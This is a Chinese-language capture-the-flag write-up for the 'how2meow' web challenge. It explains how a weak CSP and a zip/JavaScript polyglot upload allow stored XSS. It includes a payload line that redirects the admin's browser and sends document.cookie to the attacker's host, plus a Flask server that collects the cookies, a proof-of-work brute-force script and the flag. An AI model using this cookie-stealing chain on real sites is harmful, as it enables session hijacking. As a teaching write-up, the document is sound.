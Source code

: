 # how2meow

Web, 251/500 Points

Auther: **kaibro**

Writeup By: **yctseng1227**、**stavhaygn**

## Description

> 由於官方題目網站已關閉，以下只能簡述題目

從題目給的網站，我們有三種操作頁面大致如圖。

![](./arch.png)

## Solution

> 由於官方題目網站已關閉，以下只能拿競賽期間的截圖作為示意圖

### 初步操作

- Meow me

    隨意輸入字串，送出後只會吐出輸入的的字串。

- Meow Uploader

    上傳任何檔案，送出後只會吐出該檔案的副檔名。

    另外還有提供 `Meow src` 可以從source code觀察後台執行方式。

- Report to admin

    可以輸入URL以及PoW驗證，很明顯是拿flag的最後一步。


### 實際操作

從 `Meow me` 頁面按下`F12`可以發現亮了一大片紅字 =口=!!

![](./01.png)

拿去 [CSP-evaluator](https://csp-evaluator.withgoogle.com/) 發現該網站CSP機制不完全，可嵌入在該網站上傳的檔案。

從 `Meow Uploader` 可以點 `Meow src`(source code) 發現上傳只接受副檔名為 `.meow` 的檔案，接著對其檔案執行 `unzip` 指令，檢查解壓縮後為 `meow` 的檔案，是否開頭為 "edu-ctf" 字串，若檢查皆成功，將成功上傳檔案，否則上傳檔案失敗。

因此配合前面提到的 `Meow me` ，我們可以對剛檔案做一些壞壞的事^~^+


[m.meow]()
```
document.location='http://140.117.xxx.xxx:9487/?c=' + document.cookie;
/*
PK...
*/
```


以 `m.meow` 來說，除了原本壓縮檔的binary code，我們在開頭插入JS code，想藉由跳轉的方式，讓admin的cookies能夠自動傳到我們自己建的伺服器中，而該檔案上傳到官方伺服器後，會出現該檔案的位置（示意圖如下）。

![](./03.png)


既然有了檔案在官方伺服器的位置，那我們也能夠利用 `Meow me` 輸入JS code去觸發該檔案讓其執行`m.meow`內的JS code（示意圖如下）。

![](02.png)

作為Web初學者，下方也說明一下如何快速自建伺服器。

> 作業環境 Ubuntu 18.04 / Python 3.6

```shell
$ sudo pip3 install flask
$ sudo pip3 install flask_cors
$ python3 app.py
```

[app.py]()
```python
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)

@app.route('/')
def index():
    cookie = request.args.get('c', None)
    if cookie:
        return cookie
    return 'hELLo'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9487)
```

建好伺服器後，送出 `Meow me` 的時候應該多少會收到PHPSESSID，那就是有成功運作～

而 `Meow me` 頁面送出 URL request 就是我們最後要拿去 `Report to admin` 的XSS URL。

除此之外，還需要計算PoW，相關介紹可以參考另一篇 Writeup [Ponzi Scheme](https://github.com/MacacaHub/CTF-writeups/blob/master/AIS3%20EOF%20CTF%202019/Ponzi%20Scheme/readme.md)，不過作法上可以直接Python用排列組合爆搜答案即可。

```python
#!/usr/bin/env python3
import itertools
import string
from hashlib import *
from pwn import *

cond = "kaibro"
#cond = r.recvuntil("'").decode('ascii').rstrip("'")
ans = ''
alphanumeric = string.ascii_uppercase + string.ascii_lowercase + string.digits
for s in itertools.product(alphanumeric, repeat=4):
    if md5(('%s%s'%(cond, ''.join(s))).encode('utf-8')).hexdigest().startswith('6b509'):
        ans = cond + ''.join(s)
        break

print(ans)
```

最後送出 `Report to admin` 結果如下，可以從自建的伺服器收到官方傳過來的 admin's cookies，稍微整理一下就是FLAG啦！


![](./04.png)


**`FLAG{u_r_m3ow_xss_m4ster}`**


---

延伸閱讀：
- [Content-Security-Policy](https://devco.re/blog/2014/04/08/security-issues-of-http-headers-2-content-security-policy/)
- [同源政策（Same Origin Policy）](https://medium.com/@jaydenlin/same-origin-policy-同源政策-一切安全的基礎-36432565a226)
